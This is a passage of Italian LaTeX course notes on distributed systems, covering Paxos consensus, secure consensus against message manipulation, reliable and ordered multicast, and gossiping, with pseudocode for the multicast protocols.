Quindi P1 e il requisito che un valore sia scelto solo se accettato da una maggioranza di acceptor impongono quindi di ammettere che un acceptor possa accettare più di una valore. Per tener traccia delle diverse proposte accettate si associa ad ogni proposta un numero naturale di serie distinto (n effetti dunque una proposta è una coppia numero di serie - valore ). Un valore viene scelto quando una proposta con quel valore è accettata dalla maggioranza degli acceptor. In tal caso diciamo che la proposta è stata scelta.

Possiamo ammettere che siano scelte proposte differenti, a condizione che contengano lo stesso valore. È sufficiente a tale scopo garantire che: \newline
\textbf{P2: Se viene scelta una proposta con valore v e numero seriale n, allora ogni proposta scelta con numero seriale n' > n deve avere valore v.}\newline
Affinché un valore sia scelto, deve essere accettato da almeno un acceptor. Allora si può soddisfare il requisito P2 richiedendo che:\newline
\textbf{P2\textsuperscript{a}: Se viene scelta una proposta con valore v e numero seriale n, allora ogni proposta con un numero seriale n' > n accettata da un qualsiasi acceptor deve avere valore v.}

La comunicazione asincrona può far si che una proposta sia scelta da un acceptor quando un altro acceptor c non ha ancora ricevuto alcuna proposta. Un nuovo proposer (che si sveglia ignaro all'improvviso) potrebbe allora fare una proposta con un numero di serie maggiore e con valore diverso, e P1 impone che c accetti tale valore (il primo ricevuto da c) violando P2\textsuperscript{a}. 

Mantenere P1 e P2\textsuperscript{a} richiede dunque di restringere il requisito P2\textsuperscript{a}. Si considera allora il requisito più forte:\newline
\textbf{P2\textsuperscript{b}: Se viene scelta una proposta con valore v e numero seriale n, allora ogni proposta con numero seriale n' > n effettuata da un qualsiasi proposer deve avere valore v.}

\vspace{5mm}

Si supponga che la proposta $(m, v)$ sia stata scelta. Si vuole che ogni proposta con numero seriale $n > m$ abbia valore $v$. È possibile procedere per induzione su $n$: si tratta di mostrare che ogni proposta con numero $n$ ha valore $v$ se ogni proposta effettuata con numero in $[m;n-1]$ ha valore $v$.

\vspace{5mm}
Si assuma che $v$ sia il valore per ogni proposta con numero in $[m;n-1]$. Se $(m, v)$ è stata scelta, esiste una maggioranza $C$ di acceptor che ha accettato $(m, v)$. Quindi ogni acceptor in $C$ ha accettato una proposta il cui numero è compreso in $[m;n-1]$, e ogni proposta accettata con numero in $[m;n-1]$ ha valore $v$.

Poiché $C$ è una maggioranza degli acceptors, ogni insieme $S$ che sia una maggioranza deve includere uno degli acceptors di $C$. Si può concludere che una proposta con numero $n$ ha valore $v$ se garantiamo il seguente invariante: \newline
\textbf{P2\textsuperscript{c}: Per ogni $v$ ed $n$, se viene effettuata la proposta $(n, v)$, esiste un insieme $S$ di una maggioranza tale che una delle due seguenti è rispettata:}
\renewcommand{\theenumi}{\alph{enumi}}
\begin{enumerate}
    \item \textbf{nessun acceptor di $S$ ha accettato una proposta con numero seriale minore di $n$ ($v$ può essere qualsiasi).}
    \item \textbf{$v$ è il valore associato alla proposta con numero seriale più alto tra le proposte con numero minore di $n$ accettate dagli elementi di $S$.}
\end{enumerate}
Si può soddisfare P2\textsuperscript{b} mantenendo l'invariante P2\textsuperscript{c}.

\begin{figure}[ht]
    \centering
    \includegraphics[width=6cm]{./Images/cap2/2.12.png}
\end{figure}

Esempio: nella situazione A un proposer può proporre qualunque valore purché nessun acceptor in S abbia accettato alcuna proposta con numero seriale minore di 2. Nella situazione B invece il proposer deve proporre $\beta$, cioè il valore associato alla proposta con numero seriale più alto (5) tra quelle accettate con numero minore di 7 (5 e 2).

\subsubsection{GENERAZIONE DELLE PROPOSTE}
Affinché il requisito P2\textsuperscript{c} sia soddisfatto, quando intende effettuare una proposta con numero $n$, un proposer deve conoscere (se esiste) il valore della proposta con numero seriale più alto minore di $n$:
\begin{enumerate}
    \item accettata da ogni acceptor in una maggioranza;
    \item che sarà accettato da ogni acceptor in una maggioranza.
\end{enumerate}
Mentre conoscere le proposte accettate è abbastanza semplice, prevedere le scelte future degli acceptor è piuttosto complicato. A questo proposito il proposer di una proposta con numero $n$ lo può controllare richiedendo agli acceptor la promessa di non accettare ulteriori proposte con numero minore di $n$.

\vspace{5mm}

\begin{itemize}
    \item Per questa richiesta di \texttt{prepare} con numero $n$, il proposer sceglie un numero ed invia una richiesta ad ogni membro di un insieme di acceptors richiedendo la promessa di non accettare mai una richiesta con numero seriale inferiore a $n$ (\textbf{promise}), e il valore della proposta che esso ha già accettato con il più grande numero seriale minore di $n$, se presente.
    \item Per la richiesta di \texttt{accept}, se il proposer riceve da una maggioranza degli acceptors risposta alla richiesta di \texttt{prepare}, invia ad essi una richiesta di \texttt{accept} per una proposta con numero $n$. Il valore $v$ associato alla proposta può essere:
    \begin{itemize}
        \item il valore della proposta con numero seriale più alto tra quelle delle risposte degli acceptors;
        \item un qualsiasi valore, nel caso in cui le risposte non riportavano proposte precedenti.
    \end{itemize}
\end{itemize}
Il funzionamento è spiegato in maniera semplice nelle immagini successive:

\begin{figure}[ht]
    \centering
    \includegraphics[width=14cm]{./Images/cap2/2.13.png}
\end{figure}

\subsubsection{COMPORTAMENTO DEGLI ACCEPTOR}
\begin{itemize}
    \item Gli acceptor possono ricevere due tipi di messaggi: \texttt{prepare} e \texttt{accept}. 
    \item Un acceptor può sempre rispondere ad una richiesta di tipo \texttt{prepare}.
    \item Un acceptor può rispondere ad una richiesta di tipo \texttt{accept}, accettando la proposta, solo se non ha promesso a qualche processo di non farlo.
\end{itemize}
Viene quindi formulato il seguente requisito:

\noindent\textbf{P1\textsuperscript{a}: Un acceptor può accettare una proposta con numero seriale \textit{n} se e solo se non ha risposto ad una richiesta prepare il cui numero è maggiore di \textit{n}.}

Un acceptor può ignorare una richiesta \texttt{prepare} per la quale non è in grado di effettuare una promessa, ovvero può non rispondere a richieste di tipo \texttt{prepare(m)} dove sia già stato un messaggio \texttt{promise(n)} con $n > m$. Un acceptor può inoltre ignorare richieste \texttt{prepare} relative a proposte già accettate (messaggi duplicati).

\vspace{5mm}

Ogni acceptor è quindi tenuto a mantenere in memoria stabile:
\begin{enumerate}
    \item la proposta di numero seriale più elevato accettata;
    \item il numero seriale della richiesta \texttt{prepare} con numero maggiore a cui ha risposto con un messaggio \texttt{promise}.
\end{enumerate}
In questo modo soddisfa l'invariante P2\textsuperscript{c} anche in seguito al riavvio dopo un fallimento.

Nella formulazione classica gli acceptor sono replicati attivamente, ma è anche possibile una formulazione passiva. Un coordinatore riceve le richieste dai proposers, e rappresenta il frontend del sistema di processi alla base di Paxos, e smista le richieste ai vari acceptors e learners. Il coordinatore propaga anche il valore per cui si è raggiunto il consenso.

\subsubsection{ALGORITMO - FASE 1}
\begin{itemize}
    \item Un proposer selezione un numero di proposta $n$ ed invia una richiesta \texttt{prepare(n)} ad una maggioranza di acceptors.
    \item Quando un acceptor riceve una \texttt{prepare(n)}, se $n$ è maggiore di ogni altra \texttt{prepare} a cui ha già risposto, risponde con una \texttt{promise} di non accettare più proposte con numero seriale minore di $n$ e con il valore della proposta già accettata con numero più grande.
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=6cm]{./Images/cap2/2.14.png}
\end{figure}

\subsubsection{ALGORITMO - FASE 2}
\begin{itemize}
    \item Se il proposer riceve un messaggio \texttt{promise(n,v)} da una maggioranza degli acceptors, invia un messaggio \texttt{accept(n,v)} a tali acceptors, dove $v$ è il valore della proposta con numero seriale più alto tra quelle riportate dagli acceptors, ovvero un qualsiasi valore, nel caso in cui le risposte non riportavano di una proposta precedente.
    \item Se un acceptor riceve un messaggio \texttt{accept(n,v)}, accetta la proposta a meno che non abbia già risposto ad una richiesta \texttt{prepare} avente numero seriale maggiore di $n$.
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=6cm]{./Images/cap2/2.15.png}
\end{figure}
\subsubsection{ALGORITMO - FASE 3}
\begin{itemize}
    \item Se il proposer riceve tanti messaggi di \texttt{ack(n,v)} quanta la maggioranza degli acceptors, allora risponde con un \texttt{commit(n,v)} per comunicare il raggiungimento del consenso.
\end{itemize}

\begin{figure}[ht]
    \centering
    \includegraphics[width=6cm]{./Images/cap2/2.16.png}
\end{figure}
\vspace{5mm}
Si può dimostrare che la fase 2 dell'algoritmo ha il minor costo possibile per un algoritmo di consenso in presenza di fallimenti. In altri termini, Paxos può essere considerato l'ottimo. Per garantire la consistenza dello stato degli acceptors e disaccoppiare dal proposer la fase decisionale sul consenso, entrano in gioco i processi learner. Nelle figure è mostrato un esempio delle tre scelte disponibili:
\begin{figure}[ht]
    \centering
    \includegraphics[width=12cm]{./Images/cap2/2.17.png}
\end{figure}

\begin{itemize}
    \item Ogni acceptor informa tutti i learner circa l'accettazione di un valore.
    \begin{itemize}
        \item $\sharp msg = N_{A} \cdot N_{L}$
        \item Tollera il crash di $N_{L}-1$ learner.
    \end{itemize}
    \item Gli acceptor informano un solo learner distinto, che poi informa tutti gli altri learner.
    \begin{itemize}
        \item $\sharp msg = N_{A} + N_{L}-1$
        \item In caso di crash del learner distinto il valore scelto viene perso.
    \end{itemize}
    \item Gli acceptor informano un sottoinsieme di learner che poi provvedono ad informare gli altri learner.
    \begin{itemize}
        \item $\sharp msg = N_{A} \cdot N'_{L} + N'_{L} \cdot (N_{L} - N'_{L})$
        \item Tollera il crash di $N'_{L}-1$ learner.
    \end{itemize}
\end{itemize}
\subsubsection{PROGRESSO}
Il progresso non è garantito:
\begin{itemize}
    \item Il proposer p completa la fase 1 con una proposta con numero $n_{1}$.
    \item Un altro proposer q completa la fase in con una proposta con numero $n_{2} > n_{1}$.
    \item Durante la fase 2, le \texttt{accept} di p sono ignorate poiché gli acceptor hanno promesso di non accettare proposte con numero minore di $n_{2}$.
    \item Quindi p ricomincia la fase 1 con una proposta con numero $n_{3} > n_{2}$.
    \item Le \texttt{accept} inviate da q con numero $n_{2}$ saranno ignorate (gli acceptor nel frattempo hanno fatto promessa a p di non accettare proposte con numero minore di $n_{3}$).
    \item q fa una proposta con numero $n_{4} > n_{3}$...
\end{itemize}
Per garantire la \textit{liveness} si può eleggere un proposer distinto, che deve essere l'unico processo autorizzato ad effettuare proposte (e quindi ad inviare i messaggi di \texttt{prepare}). Se non si verifica un numero eccessivo di guasti nelle restanti componenti del sistema (proposers, acceptors e rete di comunicazione), è possibile raggiungere il consenso con un singolo proposer. 

Del resto sappiamo che \textbf{non esiste alcun algoritmo deterministico in grado di garantire il raggiungimento del consenso in un sistema asincrono a scambio di messaggi anche nel caso di un unico fallimento per crash di un processo}, per cui occorre un algoritmo per l'elezione del proposer distinto, il quale richiede l'introduzione di casualità o timeouts. La liveness è pertanto garantita esclusivamente durante i periodi di sincronia del sistema. La \textit{safety} invece è garantita a prescindere dalla sincronia.

\subsubsection{FAST PAXOS}
Una versione di Paxos nella quale un proposer p che ha un valore da proporre invia il valore al coordinatore \textit{c} con un messaggio di \texttt{propose}. Il coordinatore quindi invia l'apposito messaggio \texttt{accept} agli acceptor, che sarà seguito dal messaggio \texttt{learn} ai learner. Il ritardo tra la proposta e l'apprendimento è di 3 messaggi.

Fast Paxos si basa sull'idea di risparmiare un messaggio e ridurre il ritardo tra la proposta e l'apprendimento consentendo al proponente di inviare il proprio valore direttamente agli accettori. Ciò però implica la necessità di un quorum più ampio.

\subsection{Consenso sicuro}
La maggior parte dei lavori esistenti riguardanti il consenso sono stabiliti sotto il presupposto che la rete e tutti i nodi siano sicuri. Potrebbe verificarsi un attacco di manipolazione dei messaggi nella rete, dove il nodo attaccante potrebbe essere un nuovo partecipante alla rete o un nodo compromesso che era precedentemente un nodo sicuro.

Lo stato del nodo di attacco è selezionato arbitrariamente, e possono esserci principalmente due tipi di attacchi di manipolazione dei messaggi, ovvero attacco a iniezione costante e attacco a iniezione casuale. Senza alcun meccanismo di difesa, i nodi non possono distinguere lo stato del nodo sicuro e quello dell'attacco in modo che può utilizzare le informazioni del nodo di attacco per aggiornare i propri stati. Attaccanti interni che dispongono di tutti i dati di supporto al consenso, attaccanti esterni che possono riprodurre messaggi autentici, camuffare altri nodi con le loro identità catturate. Gli esterni possono essere facilmente rimossi dall'autenticazione.

\vspace{5mm}

L'effetto degli attacchi sugli algoritmi di consenso:
\begin{itemize}
    \item può far divergere la rete;
    \item può invertire lo stato corretto del sistema/fenomeni osservati;
    \item può far convergere la rete al suo valore iniettato;
    \item Può impedire alla rete di raggiungere un consenso.
\end{itemize}
Una soluzione è calcolare la devianza di ogni nodo dal valore di consenso della maggioranza, e definire affidabili i nodi con una minima deviazione.

Un miglioramento consiste nell'aggiungere la tecnica di autenticazione utilizzando la crittografia basata sull'identità. Supponiamo che un nodo voglia inviare un valore agli altri durante un algoritmo di consenso: esso firma il messaggio con la sua chiave private e lo cifra utilizzando l'identificativo di uno dei possibili destinatari, e quindi lo invia. Il ricevente decifra il messaggio ricevuto utilizzando la sua chiave privata e quindi utilizzando la chiave pubblica del mittente ne verifica la firma, di conseguenza l'autenticità. Se la verifica ha esito positivo, il messaggio può entrare nella procedura di aggiornamento del consenso.


\section{Primitive di comunicazione di gruppo}
Esistono diverse primitive di comunicazione. Prima di tutto distinguiamo il \textbf{gruppo chiuso}, nel quale solo i membri possono inviare messaggi in multicast al gruppo, e \textbf{gruppo aperto}, nel quale anche i non membri possono inviare messaggi in multicast al gruppo. L'obiettivo è assicurarsi che i processi possano scambiare messaggi di gruppo anche in presenza di fallimenti dei canali di comunicazione e/o dei processi stessi.

\vspace{5mm}

Le principali strategie per la consegna affidabile dei messaggi sono:
\begin{itemize}
    \item Error masking: ridondanza spaziale e temporale;
    \item Error detection and recovery: basata su ack e timeout;
\end{itemize}
Ridondanza temporale indica che il messaggio viene inviato più volte: per mascherare $k$ omissioni, il messaggio deve essere inviato $k+1$ volte. In entrambi i casi si pone il problema dei messaggi duplicati, che devono essere scartati dal ricevente. È difficile in generale trovare il giusto compromesso tra semplicità di recovery e consumo di banda.
\subsection{Schemi per ack dei messaggi}
Nello schema con \textbf{positive ack}, un messaggio viene ritrasmesso se non viene ricevuta una conferma al mittente entro un timeout predefinito. La failure viene individuata più rapidamente in un caso di traffico sporadico.

\vspace{5mm}
Nello schema con \textbf{negative ack}, il ricevente richiede una ritrasmissione inviando un ack negativo: minimizza il traffico di rete ma richiede l'implementazione di uno dei seguenti meccanismi:
\begin{itemize}
    \item numerazione dei messaggi, in modo tale da poter richiedere la ritrasmissione di un particolare messaggio:
    \item una strategia \textit{time-triggered} in maniera tale che il ricevente sappia quando deve ricevere un messaggio.
\end{itemize}
\subsection{Multicast}
Nelle comunicazioni multicast si individuano tre livelli di affidabilità:
\begin{itemize}
    \item \textbf{Unreliable multicast} - nessuno sforzo per superare failures dei canali di comunicazione; il multicast è affidabile se lo sono i canali e il mittente.
    \item \textbf{Best-effort multicast} - il mittente compie qualche azione per assicurare la consegna del messaggio, come ad esempio ritrasmettere lo stesso, ma non ci sono garanzie.
    \item \textbf{Reliable multicast} - i partecipanti membri del gruppo si coordinano per garantire che il messaggio venga consegnato a tutti i destinatari corretti.
\end{itemize}
È importante specificare che se la rete è affidabile vuol dire che la primitiva di comunicazione è affidabile, e non la rete stessa, che per definizione non è affidabile (vedi cali di tensione e perdite di connessione).
\subsubsection{BASIC MULTICAST}
Basato su due primitive: B-multicast e B-deliver. Garantiscono che un processo corretto prima o poi riceverà il messaggio, a patto che il mittente non fallisca. La primitiva di B-multicast può essere implementata utilizzando una primitiva per la comunicazione punto-punto su canale affidabile:
\begin{itemize}
    \item \texttt{Bmulticast(g,m): for each process p $\in$ g send(p,m)}
    \item \texttt{Breceive(m) at p: Bdeliver(m) at p}
\end{itemize}
Il Basic Multicast offre del problema dell'ack implosion, spreca larghezza di banda e comunque il mittente può fallire in ogni istante durante l'esecuzione del B-multicast.
\subsubsection{RELIABLE MULTICAST}
Il Reliable Multicast invece (Hadzilacos e Toueg, 1994/ Chandra e Toueg, 1996) soddisfa le seguenti proprietà:
\begin{itemize}
    \item \textbf{Integrity} - un processo correttp $p$ riceme $m$ al più una volta. Inoltre, $p \in group(m)$ e $m$ è stato inviato via multicast da $sender(m)$.
    \item \textbf{Validity} - se un processo corretto $p$ invia $m$ in multicast, prima o poi riceverà $m$.
    \item \textbf{Agreement} - se un processo corretto riceve $m$, allora tutti i processi corretti in $group(m)$ prima o poi riceveranno m. 
\end{itemize}    
Le definizioni delle proprietà del reliable multicast fanno riferimento a processi corretti (cioè che non falliscono mai). Una proprietà valida a prescindere dal fatto che i processi siano corretti o meno si dice \textbf{uniforme}. In particolare abbiamo la \textbf{uniform agreement}: se un processo (corretto o meno) riceve $m$, allora tutti i processi corretti in $group(m)$ prima o poi riceveranno m. 
Vediamo l'implementazione del R-multicast con B-multicast:
\begin{lstlisting}[mathescape=true]
On initialization
    Received:= {};
For process p to R-multicast message m to group g
    B-multicast(g, m);  // $p \in g$ is included as a destination
Pn B-deliver(m) at process q with g=group(m)
    if (m $\notin$ Received)
    then
        Received:= Received $\cup$ {m};
        if ($q \neq p)$
        then
            B-multicast(g, m);
        R-deliver(m);
\end{lstlisting}
L'implementazione soddisfa le proprietà del reliable multicast:
\begin{itemize}
    \item \textbf{Integrità}: discendere dall'integrità dei canali di comunicazione; 
    \item \textbf{Validità}: è evidente che un processo corretto prima o poi fa il B-deliver a sé stesso;
    \item \textbf{Accordo}: discende dal fatto che ogni processo corretto esegue B-multicast dopo B-deliver. Se dunque un processo corretto non effettua R-deliver, ciò può essere dovuto solo al fatto che non ha fatto B-deliver, che può sussistere solo se nessun altro processo corretto ha fatto il B-deliver: in tal caso nessuno farà R-deliver.
\end{itemize}
Questa implementazione è corretta in un sistema asincrono, ma inefficiente (il messaggio è inviato |g| volte a ciascun processo). Inoltre soddisfa anche la proprietà di \textit{uniform agreement}: se ad esempio un processo non è corretto e va in crash dopo aver effettuato un R-deliver, poiché in precedenza ha sicuramente effettuato B-deliver, quindi tutti i processi corretti riceveranno il mesasggio.

\noindent\textbf{N.B.} Se si invertono le istruzioni \texttt{R-deliver(m)} e \texttt{if (q $\neq$ p then B-multicast(g, m)}, l'implementazione non soddisfa più l'uniform agreement.

 \subsubsection{ORDINAMENTO FIFO}
Se un processo corretto invia in multicast $m$ e poi $m'$, allora ogni processo corretto che riceverà $m'$ avrà già ricevuto $m$. (versione uniforme = idem senza "corretto").
\subsubsection{ORDINAMENTO CAUSALE}
Se \texttt{multicast(g,m)} $\rightarrow$ \texttt{multicast(g,m')} dove $\rightarrow$ è la relazione \textit{happened-before} nell'ambito del gruppo g, allora ogni processo corretto che riceverà $m'$ avrà già ricevuto $m$ (versione uniforme = idem senza "corretto").

L'ordinamento causale implica quello FIFO, poiché gli invii di uno stesso processo sono in relazione HB. Infatti l'ordinamento causale estende quello FIFO con l'ordinamento della ricezione dei messaggi, che pur essendo inviati da processi diversi, sono in relazione di potenziale causalità:
\begin{itemize}
    \item Se un processo $p$ invia in multicast un messaggio $m$ ed un processo $p' \neq p$ riceve $m$ prima di inviare in multicast $m'$, allora nessun processo corretto riceve $m'$ a meno che non abbia già ricevuto $m$.
\end{itemize}
\subsubsection{ORDINAMENTO TOTALE}
Se un processo corretto riceve i messaggi $m$ e poi $m'$, allora ogni altro processo corretto che riceve $m'$ avrà già ricevuto $m$. L'ordinamento totale non implica quello FIFO né quello causale.

\begin{figure}[ht]
    \centering
    \includegraphics[width=12cm]{./Images/cap2/2.18.png}
\end{figure}

Esempio: una Bulletin Board: c'è un gruppo per argomento; gli utenti si sottoscrivono agli argomenti di interesse. Un utente invia un messaggio su un argomento = broadcast al gruppo. I tipi di semantica che servono sono:
\begin{itemize}
    \item reliable multicast se si vuole garanzia che tutti gli iscritti ricevano i messaggi.
    \item ordinamento FIFO se si vuole che tutti i messaggi inviati da uno stesso utente siano ricevuti nell'ordine di invio.
    \item ordinamento causale se si vuole che il messaggio "Re: info" sia ricevuto dopo il messaggio "info" a cui si riferisce.
    \item ordinamento totale se si vuole che la numerazione dei messaggi sia la stessa per tutti gli utenti.
\end{itemize}

\subsubsection{IP MULTICAST}
La soluzione più comune per realizzare un sistema di comunicazione di gruppo è di impiegare IP multicast, definito al di sopra del protocollo IP, ed un'applicazione può effettuare comunicazioni multicast solo attraverso l'invio di datagrammi UDP.

Un gruppo multicast viene identificato per mezzo di indirizzi di classe D assegnati dalla Internet authority nell'intervallo 224.0.0. - 224.0.0.255. I router sono responsabili dell'opportuna replicazione e instradamento dei pacchetti per la consegna ai membri attraverso il Protocol-Indipendent multicast.

L'IP multicast è un'ottima soluzione per comunicazioni di gruppo in LAN, ma presenta limiti su WAN:
\begin{itemize}
    \item Gli ISP non consentono traffico IP multicast per ridurre il carico sui router e proteggersi da traffico indesiderat;
    \item IP multicasi richiede aggiornamenti all'attuale infrastruttura di rete, che non sono facilmente sostenibili dal business model degli attuali ISP;
    \item IP multicast viola il principio di stateless del protocollo IP, siccome i router devono mantenere informazioni sulla membership dei gruppi;
    \item IP multicast introduce forti complessità e limiti di scala su scenari di ampia scala come internet.
\end{itemize}
Questi motivi hanno portato alla definizione di un nuovo approccio alla comunicazione di gruppo, ovvero Application-Level Multicast.
\subsubsection{APPLICATION-LEVEL MULTICAST}
Una soluzione per ovviare agli inconvenienti di IP multicast è quello di implementare le funzionalità di multicasting a livello applicativo piuttosto che a livello di trasporto della pila ISO/OSI.

Le applicazioni sono interconnesse per mezzo di una overlay network, gestiscono i meccanismi di membership al gruppo e si fanno carico delle operazioni di replicazione e disseminazione dei pacchetti. L'interconnessione al livello overlay può essere strutturata come un albero, oppure non strutturata come una mesh. L'uso di una struttura ad albero implica una maggiore efficienza nella disseminazione, ma anche più vulnerabilità ai fallimenti dei nodi overlay.

L'efficienza ($\eta$) (eta) è misurata come il numero medio di pacchetti scambiati sui link durante la disseminazione di un messaggio in multicast.
\begin{center}
    $\eta_{IPmulticast} = 1$ mentre $\eta_{ALM} < 1$
\end{center}
ALM indica il caso in cui i nodi dell'overlay sono realizzati dagli stessi computer situati presso gli utenti finali. Il risultato è che la distribuzione ottenibile è caratterizzata da una topologia spesso molto lontana dal caso ideale.

Il termine \textbf{Overlay Multicast} è usato per identificare il caso in cui i nodi dell'overlay sono disposti direttamente nella core network, permettendo di realizzare un albero di distribuzione molto più efficiente. A differenza dell'unicast, che deve conoscere tutti i nodi per inviare messaggi, il multicast conosce solo le sorgenti più vicine, in quanto sono i router che si occupano di instradare i pacchetti. Infatti nell'IP multicast viaggia sempre un solo messaggio, mentre nell'ALM sono di meno ma è raro che arrivi al caso peggiore (successione degli unicast).

\subsubsection{ORDINAMENTO FIFO}
L'ordinamento si realizza mediante l'utilizzo di numeri di sequenza. Assumiamo che i gruppi non si sovrappongano:
\begin{itemize}
   \item \texttt{S\textsuperscript{p}} - contatore dei messaggi inviati dal processo \texttt{p} al gruppo \texttt{g}
    \item \texttt{R\textsuperscript{q}} - numero di sequenza dell'ultimo messaggio delivered da \texttt{p}, inviato da \texttt{g} a \texttt{q}.
    \item \texttt{HoldBackQueue(p)} - coda dei messaggi fuori sequenza in attesa di essere ricevuti da \texttt{p}.
\end{itemize}
\begin{lstlisting}[escapeinside={(*}{*)}]
To FO-multicast(m,g):
    (*\texttt{piggyBack(S\textsuperscript{p},m);}*)
    (*\texttt{Bmulticast(m,g);}*)
    (*\texttt{S\textsuperscript{p} = S\textsuperscript{p}+1;}*)
To FO-deliver(q.m) with m bearing S = R\textsuperscript{q}+1:
    (*\texttt{FO-deliver(q,m);}*)
    (*\texttt{R\textsuperscript{q} = S;}*)
To FO-deliver(q,m) with m bearing S > R\textsuperscript{q} + 1:
    (*\texttt{put m in HoldBackQueue();}*)
    (*\texttt{wait until S(m) = R\textsuperscript{q}+1;}*)
    (*\texttt{FOdeliver(q,m);}*)
\end{lstlisting}
\subsubsection{IMPLEMENTAZIONE R-MULTICAST}
Il protocollo multicast affidabile può essere eseguito su UDP e utilizza il servizio multicast IP per la consegna dei pacchetti. Poiché sia IP multicast che UDP sono protocolli inaffidabili, l'affidabilità si ottiene eseguendo un protocollo affidabile end-to-end a livello di applicazione. Per ottenere l'affidabilità, i pacchetti con errori o pacchetti persi verranno ritrasmessi, utilizzando un protocollo a finestra scorrevole basato sul feedback delle stazioni.

Nel costo dell'ALM oltre alla ridondanza temporale realizzata dalle ritrasmissioni, è possibile adottare anche la ridondanza spaziale impiegando percorsi multipli con copie dei messaggi istradati nei vari percorsi, e usando tecniche di codifica per ottenere informazioni addizionali e ricostruire i pacchetti persi dalla rete.

\vspace{5mm}

Application Level Multicast è best effort (se la rete ha delle problematiche si perdono dei messaggi), quindi bisogna aggiungere caratteristiche per aumentare l'affidabilità. Mentre TCP offre garanzie \textit{link by link}, quindi la comunicazione è protetta lungo un canale che collega due endpoint, in questo caso occorre una protezione \textit{end-to-end} perché servono protezioni anche a livello di rete e non solo delle parti, ad esempio se cade un nodo dell'overlay. TCP quindi non va bene per il reliable multicast.

\subsubsection{IMPLEMENTAZIONE ORDINAMENTO CASUALE}
L'implementazione tiene conto solo delle relazioni HB tra i messaggi multicast, non di quelle tra messaggi diretti (one-to-one) scambiati tra i processi. Si può fare però uso di orologi vettoriali (vector clocks), in cui l'elemento i-esimo conta  il numero di messaggi inviati dal processo i-esimo in relazione HB con il prossimo messaggio.

Per effettuare il CO-multicast, un processo incrementa il proprio elemento nel vettore ed esegue B-multicast al gruppo \textit{g} del messaggio marcato con il vector clock. Quando $p_{i}$ fa il B-deliver di un messaggio inviato da $p_{j}$, prima di effettuare il CO-deliver deve inserirlo nella Hold Back Queue finché non ha fatto il CO-deliver di tutti i messaggi in relazione HB con esso. Quindi $p_{i}$ deve verificare di aver fatto:
\begin{itemize}
    \item il CO-deliver di tutti i messaggi precedenti inviati da $p_{j}$;
    \item il CO-deliver di tutti i messaggi da cui $p_{j}$ aveva fatto il CO-deliver prima di inviare il messaggio in questione.
\end{itemize}
Queste condizioni possono essere verificate esaminando i \textit{vector timestamps} dei messaggi ricevuti.

\noindent Il multicast con ordinamento causale affidabile può essere implementato a partire dalla implementazione del Causal Multicast, usando R-multicast al posto di B-multicast.

\subsubsection{IMPLEMENTAZIONE ORDINAMENTO TOTALE}
Basata sulla marcatura dei messaggi con identificatori totalmente ordinati, in modo che tutti i processi possano prendere le stesse decisioni. Il delivery è come per l'ordinamento FIFO, ma i numeri di sequenza si riferiscono al gruppo, non al processo.

Primo metodo: implementazione mediante processo sequenziatore:
\begin{itemize}
    \item un messaggio \texttt{m} è inviato sia a \texttt{g} sia a \texttt{sequencer(g)}, etichettato con un id univoco \texttt{id(m)}
    \item \texttt{sequencer(g)} può coincidere con un membro di \texttt{g}
    \item \texttt{sequencer(g)} gestisce un numero di sequenza per il gruppo \texttt{s\textsubscript{g}}, con cui marca i messaggi di cui effettua B-deliver
    \item \texttt{sequencer(g)} annuncia i numeri di sequenza inviando messaggi di ordinamento a \texttt{g} tarmite B-multicast
    \item un messaggio resta nella Hold Back Queue finché non può esserne effettuato il TO-deliver, in base al suo numero di sequenza.
\end{itemize}
Secondo metodo: algoritmo ISIS (Birman, 1987), valido per gruppi aperti o chiusi. I processi concordano collettivamente sui numeri di sequenza, con un algoritmo distribuito.

Ogni ricevente propone il numero di sequenza al multicaster, che genera il numer \textit{agreed}.
Ogni processo \textit{q} di \textit{g} possiede:
\begin{itemize}
    \item $A^{q}_{g}$: il più alto numero di sequenza finora convenuto;
    \item $P^{q}_{g}$: il più alto numero di sequenza finora proposto dallo stesso \textit{q}.
\end{itemize}
Ogni ricevente propone:
\begin{center}
    $P^{q}_{g}:= max(A^{q}_{g},P^{q}_{g})+1$
\end{center}
e assegna temporaneamente al messaggio il numero proposto, inserendolo nella Hold Back Queue; questa è ordinata con il valore più piccolo in testa.

Il multicaster raccoglie le proposte e seleziona il valore maggiore \textit{a}, quindi effettua \texttt{Bmulticast(i,a)} (\textit{i} è l'id univoco con cui il multicaster ha etichettato \textit{m}).

Ogni ricevente assegna:
\begin{center}
    $A^{q}_{g}:=max(A^{q}_{g},a)$
\end{center}
e associa il valore \textit{a} al messaggio, quindi riordina la Hold Back Queue se il valore convenuto è diverso da quello proposto. Quando al messaggio in testa alla coda viene assegnato il numero \textit{agreed}, viene inserito in una delivery queue.

\subsubsection{IMPLEMENTAZIONE CAUSAL TOTAL MULTICAST}
Se si combina l'algoritmo per l'ordinamento causale (CO) con quello per il multicast totalmente ordinato (TO) basato sul sequencer si ottiene un ordinamento che è ordinato sia causalmente sia totalmente (C\&TO):
\begin{itemize}
    \item il sequenziatore deve fare il delivery secondo l'ordinamento causale, e il multicast dei numeri di sequenza dei messaggi nell'ordine con cui li riceve;
    \item i processi nel gruppo di destinazione non effettuano il deliver prima di aver ricevuto un messaggio order dal sequenziatore e il messaggio è il prossimo nella sequenza;
    \item in tal modo, poiché il sequencer effettua il deliver in ordina causale, e tutti gli altri processi lo effettuano nell'ordine del sequencer, l'ordinamento è sia totale sia causale.
\end{itemize}
Un modo per realizzare un multicast in modo decentralizzato è il \textbf{gossiping}, che alla fine realizza la consegna di messaggi in un overlay costruito con ALM o con reliable multicast.

\subsection{Gossiping}
Il gossiping rappresenta un algoritmo distribuito per poter garantire la consegna di messaggi sebbene fallimenti di link, processo e di rete si possano verificare nel sistema. Realizza una soluzione di flooding selettivo:
\begin{enumerate}
    \item Periodicamente, ogni processo decide di inviare un messaggio a un insieme k di interlocutori scelti in maniera casuale (k è un parametro dell'algoritmo detto fan-out).
    \item Sulla base dei messaggi scambiati, ritrasmissioni vengono attivate.
    \item Messaggi persi vengono recuperati. 
\end{enumerate}
Esistono due modalità di interazione tra i partecipanti a un algoritmo di gossiping:
\begin{itemize}
    \item \textbf{Push style}: il gossiper invia l'informazione a uno o più destinatari scelti casualmente;
    \item \textbf{Pull style}: il gossiper interroga uno o più destinatari richiedendo l'invio di un'informazione.
\end{itemize}
L'informazione che viene scambiata, o \textit{digest}, può essere di due tipi:
\begin{itemize}
    \item \textbf{Positive}: il messaggio di gossiping contiene gli identificativi dei messaggi correttamente ricevuti;
